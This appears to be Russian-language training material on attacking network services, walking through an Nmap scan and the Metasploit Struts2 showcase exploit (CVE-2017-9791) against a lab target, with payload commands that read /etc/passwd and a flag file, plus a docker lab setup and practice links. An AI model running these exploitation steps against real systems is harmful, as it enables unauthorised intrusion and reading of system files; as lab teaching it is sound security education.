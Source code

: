 ## Типовые проблемы сетевых сервисов:
- Проблемы конфигурации
- Слабые пароли
- Неиспользование шифрования
- Известные уязвимости

## Разбор базового примера
### Уязвимость, которая может быть найдена в публичном сетевом сервисе заказчика
#### Ход действий

1. Проведем сканирование узла evil.corp, используя Nmap: отключим ping-сканирование с помощью опции -Pn, выведем только открытые порты с помощью опции --open и определим версии сервисом с помощью опции -sV:  
```
$ nmap -sT -Pn -p 21,22,23,80,445 -sV --open -v evil.corp
```  

2. Видим в выводе порт 8080 с http-сервисом. Откроем его в браузере.

3. Изучим это приложение, определим, что это Struts 2 с стандартной страницей showcase, демонстрирующей возможности этого фреймворка. Попытаемся найти известные уязвимости для этого сервиса с помощью Metasploit Framework:
```
$ msfconsole

msf6> search apache struts2 showcase
```

4. Воспользуемся эксплойтом:
```
msf6> exploit/multi/http/struts2_code_exec_showcase
```

5. Изучим эксплойт и его настройки:
```
msf6> info
msf6> options
```

7. Настроим эксплойт:
```
msf6> set RHOSTS evil.corp
```

8. С помощью браузера подберем значение для опции `TARGETURI`; так как стандартный путь не работает – проверим `TARGETURI` `/integration/saveGangster.action` и убедимся, что он работает:
```
msf6> set TARGETURI /integration/saveGangster.action
```
9. Подготовим полезную нагрузку для выполнения произвольных команд:
```
msf6> set PAYLOAD cmd/unix/generic
msf6> set CMD id
```

10. Запустим эксплойт и убедимся, что у нас есть права root:
```
msf6> run
```

11. Поменяем команду:
```
msf6> set CMD cat /etc/passwd
msf6> run
```

### Поиск известных уязвимостей для данной версии ПО:
- [База знаний Common Vulnerabilities and Exposures](https://cve.mitre.org/)
- [Платформа Vulners](https://vulners.com/)
- [База данных эксплойтов от Offensive Security](https://www.exploit-db.com/)
- [Платформа управления уязвимостями и анализа угроз](https://vuldb.com/)

## Эксплуатация уязвимости при помощи фреймворка

Настройка Metasploit из примера вначале
Команды настройки msfconsole для (CVE-2017-9791)(Команды bash):

Console:
```
msfconsole <- Запуск фреймворка

search struts showcase  <- Поиск всех возможных эксплойтов с содержимым строки “struts showcase”

use exploit/multi/http/struts2_code_exec_showcase <- Выбор эксплойта для работы последующей настройки

info <- Изучение информации об эксплойте

options <- Демонстрация опций для настройки эксплойта

set RHOSTS localhost <- Настройка узла для применения эксплойта

set RPORT 1337 <- Настройка порта для применения эксплойта

set TARGETURI /integration/saveGangster.action <- Настройка места нахождения уязвимого плагина на сайте

set PAYLOAD cmd/unix/generic <- Настройка “нагрузки” исполняемой после применения эксплойта

set CMD 'cat /flag' <- Настройка опций нагрузки (Указание команды, которую необходимо выполнить)

check <- Использование “чекера” для проверки корректности настроенного эксплойта

exploit <- Эксплуатация уязвимости
```

Поднять стенд самостоятельно можно командой docker:  
```
docker run -it --rm -p 1337:8080 --name struts piesecurity/apache-struts2-cve-2017-5638
```

## Дополнительные материалы

Практика:

- [revshells](https://www.revshells.com/)
- [tryhackme](https://tryhackme.com/room/metasploitintro)
- [Знакомство с метасплоит и документация](https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/)
- [Краткий курс об особенностях и деталях метасплоит от разработчиков](https://www.offensive-security.com/metasploit-unleashed/)
- [Практика сборки и исследования уязвимых стендов](https://github.com/vulhub/vulhub)
- [Задачи на эксплуатацию уязвимостей разного рода](https://www.vulnhub.com/)

Теория:
- [Nmap гайд](https://nmap.org/book/man.html)

CheatSheets:
- [Nmap все команды и флаги на 2023 г.](https://www.stationx.net/nmap-cheat-sheet/)

Хакерские инструменты:
![](pic/hack-tools.jpg)